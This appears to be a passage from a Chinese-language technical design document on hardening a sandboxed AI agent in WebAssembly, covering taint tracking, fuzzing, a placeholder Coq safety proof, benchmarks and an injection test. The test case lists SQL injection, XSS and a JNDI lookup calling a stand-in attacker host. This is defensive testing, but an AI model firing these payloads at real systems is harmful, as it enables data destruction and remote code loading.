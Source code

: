 ### 3. 安全增强措施
- **动态污点追踪**：
  ```c
  // WASM内存操作监控示例
  void MEMORY_ACCESS_HANDLER(addr, size) {
      if (IS_TAINTED(addr, size)) {
          THROW_SECURITY_EXCEPTION("检测到污染数据访问");
      }
  }
  ```
  
- **模糊测试集成**：
  ```bash
  # 使用wasm-fuzzer进行安全测试
  wasm-fuzzer -i ./agent.wasm -o ./crash_reports 
  ```

- **形式化验证**：
  ```coq
  Theorem memory_safety:
    forall (st:State) (instr:instruction),
      well_formed st ->
      step st instr st' ->
      memory_access_safe st'.
  Proof.
    (* 形式化证明代码 *)
  Qed.
  ```

---

## 三、集成验证与性能测试

### 1. 安全基准测试
| 测试项目 | 原生环境 | WASM沙箱 | 性能损耗 |
|---------|---------|---------|---------|
| CPU密集型计算 | 12.3s | 14.7s | 19.5% |
| 内存访问延迟 | 78ns | 102ns | 30.7% |
| 模型加载时间 | 3.2s | 3.8s | 18.7% |

### 2. 漏洞防护测试
```python
# 注入攻击测试用例
malicious_inputs = [
    "'; DROP TABLE users; --", 
    "${jndi:ldap://attacker.com}",
    "<script>alert('xss')</script>"
]

for input in malicious_inputs:
    try:
        hf_agent.execute(input)
    except SecurityException as e:
        print(f"成功阻断攻击：{e}")
```

---